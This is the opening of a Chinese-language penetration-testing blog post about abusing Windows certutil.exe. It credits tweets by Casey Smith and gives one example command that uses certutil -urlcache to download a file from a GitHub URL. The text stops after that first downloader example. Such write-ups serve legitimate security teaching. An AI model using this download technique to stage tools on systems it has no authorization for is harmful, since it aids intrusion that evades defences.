 ```yaml
---
layout: post
title: 渗透测试中的certutil
---
```


---


## 0x00 前言
---

最近在Casey Smith‏ @subTee的twitter上学到了关于certutil的一些利用技巧。本文将结合自己的一些经验，介绍certutil在渗透测试中的应用，对cmd下downloader的实现方法作补充，总结base64编码转换的常用方法。

**学习地址：**

https://twitter.com/subTee/status/888101536475344896

https://twitter.com/subTee/status/888071631528235010


## 0x01 简介
---

本文将要介绍以下内容：

- certutil.exe在渗透测试中的应用
- downloader常用方法
- base64编码转换常用方法

## 0x02 certutil简介
---

用于证书管理

支持xp-win10

更多操作说明见https://technet.microsoft.com/zh-cn/library/cc755341(v=ws.10).aspx

**注：**

在之前的文章《域渗透——EFS文件解密》有用过certutil.exe导入证书

## 0x03 渗透测试中的应用
---

### 1、downloader

(1) 保存在当前路径，文件名称同URL

eg：

`certutil.exe -urlcache -split -f https://raw.githubusercontent.com/3gstudent/test/master/version.txt`

